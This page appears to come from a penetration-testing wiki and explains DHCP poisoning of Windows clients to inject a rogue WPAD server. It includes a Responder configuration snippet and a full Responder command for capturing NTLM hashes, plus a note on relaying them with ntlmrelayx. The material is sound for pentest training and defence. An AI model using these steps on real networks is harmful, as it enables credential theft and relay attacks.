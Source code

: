 # DHCP poisoning

## Theory

When a workstation reboots or plugs into a network, a broadcast DHCP request is emitted. It's goal is to ask for network settings like an IPv4 address.

> Windows uses several custom DHCP options such as NetBIOS, WINS, WPAD settings. When a workstation sends a DHCP request to get its networking settings, these additional settings can be included in the DHCP answer to facilitate straightforward connectivity and name resolution. _\(_[_Laurent Gaffié_](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)_\)_

[DHCP's option 252](https://docs.microsoft.com/en-us/previous-versions/tn-archive/bb794881%28v=technet.10%29) provides Windows machines with a WPAD configuration. An attacker able to answer broadcast DHCP queries faster than the legit DHCP server can inject any network setting on the requesting client.

## Practice

[Responder](https://github.com/SpiderLabs/Responder) \(Python\) \(from v3.0.7.0\) can be used to operate DHCP poisoning in the following manner

* race against the legit DHCP server to answer `DHCP REQUEST` messages
* sent a DHCP ACK response with a rogue WPAD server address in `option 252` in the network parameters, with a short lease \(10 seconds\)
* wait the lease to expire so that the poisoned client asks for a new lease
* let the client obtain a legitimate lease from the real DHCP server, allowing the client to obtain the right network settings and have connectivity
* the injected WPAD server address will stay until the client reboots \(that's how Windows works 🤷♂ \)
* with the injected WPAD server address, the Windows client will try to obtain the wpad.dat file on the rogue WPAD. Responder will then require the client to authenticate.

In order to start DHCP poisoning for WPAD spoofing with Responder, the `Responder.conf` file needs to be tweaked.

```yaml
WPADScript = function FindProxyForURL(url, host){if ((host == "localhost") || shExpMatch(host, "localhost.*") ||(host == "127.0.0.1") || isPlainHostName(host)) return "DIRECT"; if (dnsDomainIs(host, "ProxySrv")||shExpMatch(host, "(*.ProxySrv|ProxySrv)")) return "DIRECT"; return 'PROXY ProxySrv:3128; PROXY ProxySrv:3141; DIRECT';}
```

The `ProxySrv` variable \(in red in the following screenshot\) needs to be replace by the rogue WPAD server \(i.e. Responder IP address\).

![](../../../.gitbook/assets/responder_conf_dhcp_poisoning.png)

The attack can then be started with the `-d/--NBTNSdomain` argument.

The `--wredir` and `--ProxyAuth` need to be added to force the Windows client to authenticate once the `wpad.dat` is accessed in order to capture hashes.

```bash
responder --interface "eth0" --wredir --ProxyAuth --NBTNSdomain --verbose
```

The proxy auth NTLM authentication can either be [captured](../ntlm/capture.md) with Responder with the command line above or [relayed](../ntlm/relay.md) with [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) \(by using the `--http-port 3128` argument. The `--wredir` and `--ProxyAuth` arguments need to be removed from Responder's command line.\).

## Resources

{% embed url="https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html" %}



